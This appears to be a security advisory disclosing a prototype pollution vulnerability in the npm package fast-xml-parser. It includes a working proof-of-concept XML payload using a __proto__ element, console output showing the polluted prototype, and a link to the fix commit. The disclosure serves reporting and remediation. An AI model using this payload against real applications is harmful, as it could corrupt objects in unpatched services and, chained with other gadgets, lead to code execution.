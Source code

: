 I was auditing another application and found that they were using 
`fast-xml-parser` parse uploaded xml files.

The package description says *Validate XML, Parse XML to JS Object, or Build XML from JS Object without C/C++ based libraries and no callback.*

*Parse XML to JS Object* - this sounded very interesting and I knew I should test for prototype pollution as many other packages which *convert json to js objects* were found to be vulnerable in the past and it turned out yeah this package was vulnerable to it.

https://www.npmjs.com/package/fast-xml-parser
https://github.com/NaturalIntelligence/fast-xml-parser

Taking an example code from the github repo to demonstrate the bug:


```js
const { XMLParser, XMLBuilder, XMLValidator} = require("fast-xml-parser");


let XMLdata = "<__proto__><polluted>hacked</polluted></__proto__>"

const parser = new XMLParser();
let jObj = parser.parse(XMLdata);


console.log(jObj.polluted) // should return hacked
```

![Code_G3UvvJcSv5](https://user-images.githubusercontent.com/31372554/218308540-86792929-3631-4580-8373-4651487418b5.png)

In the above screenshot you can see the `jObj` was polluted with a new property.

```js
jObj
>{}
jObj.__proto__
>{polluted: 'hacked'}
jObj.__proto__.polluted
>'hacked'
```

More information on prototype pollution can be found here: https://learn.snyk.io/lessons/prototype-pollution/javascript/

As it is common for developers to pass user controllable input to `XMLParser` , this can to do unexpected results. By chaining it with some prototype pollution gadget it might even can lead to RCE in some cases https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/


Fix commit: https://github.com/NaturalIntelligence/fast-xml-parser/commit/2b032a4f799c63d83991e4f992f1c68e4dd05804

They are now validating, if the key contains `__proto__` and replaces it with `#__proto__`

CVE is still pending 

The package maintainer @amitguptagwl was very swift in replies and addressing the reported issue :)


SNYK Advisory: https://security.snyk.io/vuln/SNYK-JS-FASTXMLPARSER-3325616
